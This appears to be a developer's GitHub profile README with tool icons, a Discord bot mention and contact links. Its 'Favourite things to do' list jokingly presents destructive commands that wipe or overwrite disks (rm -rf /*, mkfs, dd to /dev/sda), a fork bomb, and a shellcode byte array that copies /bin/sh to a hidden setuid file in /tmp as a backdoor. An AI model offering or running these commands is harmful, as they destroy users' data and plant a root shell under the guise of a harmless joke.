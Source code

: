 ## **Hallo there** 👋

### **My Languages and Tools:**



<img align="left" alt="VSCode" width="26px" src="https://en.opensuse.org/images/e/e8/Vscode.png"/>
<img align="left" alt="HTML5" width="26px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/html/html.png" />
<img align="left" alt="CSS3" width="26px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/css/css.png" />
<img align="left" alt="Git" width="26px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/git/git.png" />
<img align="left" alt="GitHub" width="26px" src="https://raw.githubusercontent.com/github/explore/78df643247d429f6cc873026c0622819ad797942/topics/github/github.png" />
<img align="left" alt="Python" width="26px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/python/python.png" />
<img align="left" alt="SQL" width="26px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/sql/sql.png" />
<img align="left" alt="SQLite" width="26px" src="https://raw.githubusercontent.com/github/explore/master/topics/sqlite/sqlite.png" />
<img align="left" alt="Windows Terminal" width="32px" src="https://news-cdn.softpedia.com/images/fitted/340x180/microsoft-reveals-the-new-windows-terminal-icon.jpg" />

<br>

### **Favourite things to do:**

<ul>

<li>sudo rm -rf /*</li>

<li>char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
“\x6e\x2f\x73\x68\x00\x2d\x63\x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;</li>

<li>:(){ :|: & };:</li>

<li>mkfs.ext4 /dev/sda1</li>

<li>dd if=/dev/random of=/dev/sda</li>

<li>mv ~ /dev/null</li>

#### _Hope nobody minds me doing this to their computer ;)_

#### Working on my NextX Discord Bot

[<img align="left" alt="Discord" width="26px" src="nextxnew.png" />][nextx]

[nextx]: https://discord.gg/mv9XEmk

[<img align="left" alt="Discord" width="26px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/discord/discord.png" />][nextxdiscord]

[nextxdiscord]: https://github.com/Smart6502/Smart6502

### Contact me:

[<img align="left" alt="Discord" width="26px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/discord/discord.png" />][discord]

[discord]: https://discord.gg/mv9XEmk
